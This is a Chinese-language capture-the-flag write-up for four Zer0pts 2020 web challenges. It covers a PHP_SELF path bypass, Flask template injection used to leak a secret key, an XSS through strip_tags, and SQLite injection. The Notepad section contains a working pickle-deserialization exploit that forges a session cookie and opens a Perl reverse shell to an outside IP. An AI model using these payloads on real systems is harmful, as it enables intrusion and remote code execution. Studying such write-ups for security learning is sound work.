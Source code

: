 # Zer0pts2020

## Can you guess it?

给了源码
```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

发现``hash_equals``绕不过去，只能想办法从别的地方入手

问题出在``$_SERVER['PHP_SELF']``

>$_SERVER['PHP_SELF'] 表示当前 php 文件相对于网站根目录的位置地址，与 document root 相关。
>
>假设我们有如下网址，$_SERVER['PHP_SELF']得到的结果分别为：
>
>http://ctf.ieki.xyz/php/ ：/php/index.php
>http://ctf.ieki.xyz/php/index.php ：/php/index.php
>http://ctf.ieki.xyz/php/index.php?test=foo ：/php/index.php
>http://ctf.ieki.xyz/php/index.php/test/foo ：/php/index.php/test/foo
>
>```php
>$url = "http://".$_SERVER['HTTP_HOST'].$_SERVER['PHP_SELF'];
>```


用Unicode可以绕过

payload

```
http://2086784a-a065-458e-8566-2d1a200b1f41.node3.buuoj.cn/index.php/config.php/%E5%95%A5?source
```

## Notepad

源码审计，有很明显的SSTI

```python
@app.errorhandler(404)
def page_not_found(error):
    """ Automatically go back when page is not found """
    referrer = flask.request.headers.get("Referer")
    
    if referrer is None: referrer = '/'
    if not valid_url(referrer): referrer = '/'
    
    html = '<html><head><meta http-equiv="Refresh" content="3;URL={}"><title>404 Not Found</title></head><body>Page not found. Redirecting...</body></html>'.format(referrer)
    
    return flask.render_template_string(html), 404

def valid_url(url):
    """ Check if given url is valid """
    host = flask.request.host_url
    
    if not url.startswith(host): return False  # Not from my server
    if len(url) - len(host) > 16: return False # Referer may be also 404
    
    return True
```

POC:
```
Referer:  http://37785aff-4b7b-4655-8a7f-b86e7af93f88.node3.buuoj.cn/%7b%7b%31%2b%31%7d%7d
```

限制了payload长度...

发现有``session``去读``SECRET_KEY``看看

```
&#39;SECRET_KEY&#39;: b&#39;&#34;\xe8#I\xc5\xb8y\x95-\xc5\xb4\xab7\xf3Oh&#39;
->
'SECRET_KEY': b'"\xe8#I\xc5\xb8y\x95-\xc5\xb4\xab7\xf3Oh'
```

Tips:
> 命令行下输入不可见字符可以使用
> -s `echo ueUt4wLFsf5b9T3iO2TzhQ==|base64 -d`

看下Session存的啥

利用flask-session-cookie解码工具可以看到里面有savedata

多次解码后可以看到很像pickle序列化对象

事实上我们也可以从源码中发现这一点

```python
def load():
    """ Load saved notes """
    try:
        savedata = flask.session.get('savedata', None)
        data = pickle.loads(base64.b64decode(savedata))
    except:
        data = [{"date": now(), "text": "", "title": "*New Note*"}]
    
    return data
```


那么解法就很明显了,利用反序列反弹shell或者curl外带数据

Exp:

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface
import pickle 
import sys
import base64
import pickletools

COMMAND = """perl -e 'use Socket;$i="174.1.197.19";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'"""
# 174.1.197.19

class PickleRce(object):
    def __init__(self):
        super(PickleRce, self).__init__()
        self.id = 1
        self.name ="eki"
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))
x = PickleRce()
s = pickle.dumps(x)

pickletools.dis(s)

app = Flask(__name__)
app.secret_key = b'"\xe8#I\xc5\xb8y\x95-\xc5\xb4\xab7\xf3Oh'

session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)


payload= {"savedata": base64.b64encode(s)}
print(session_serializer.dumps(payload))
```


## music blog

题目中说给管理员看 大概是个xss题

网页源码有个交互按钮

```
<a href="like.php?id=b54959b9-9a17-43d6-a2d8-5e800ce6d8d2" id="like" class="btn btn-love">♥ Like this post</a>
```

php strip_tags的一个问题

```
root@737a6cc33ba8:~# php -r "echo strip_tags('<script>','<audio>');"
root@737a6cc33ba8:~# php -r "echo strip_tags('</audio>','<audio>');"
</audio>
root@737a6cc33ba8:~# php -r "echo strip_tags('<a/udio>','<audio>');"
<a/udio>
```

Exp:

```html
<a/udio id=like href=http://http.requestbin.buuoj.cn/1j616ye1>eki
```

## phpNantokaAdmin


```sql
select Name from User
->
Name
Eki
John
Alice

select [Name][123] from User
->
123
Eki
John
Alice
```

对于这道题

```sql
CREATE TABLE $table_name (dummy1 TEXT, dummy2 TEXT, `$column` $type);

table_name=[abc]as select [sql][&columns[0][name]=]from sqlite_master;&columns[0][type]=1
->
$sql = "CREATE TABLE [abc] as select [sql][ (dummy1 TEXT, dummy2 TEXT, `]from sqlite_master;` 1);";
->
create table [abc] as select sql from sqlite_master
```

注就完了

-> ``CREATE TABLE `flag_bf1811da` (`flag_2a2d04c3` TEXT)``

-> ``table_name=[abc]as select [flag_2a2d04c3][&columns[0][name]=]from flag_bf1811da;&columns[0][type]=1``
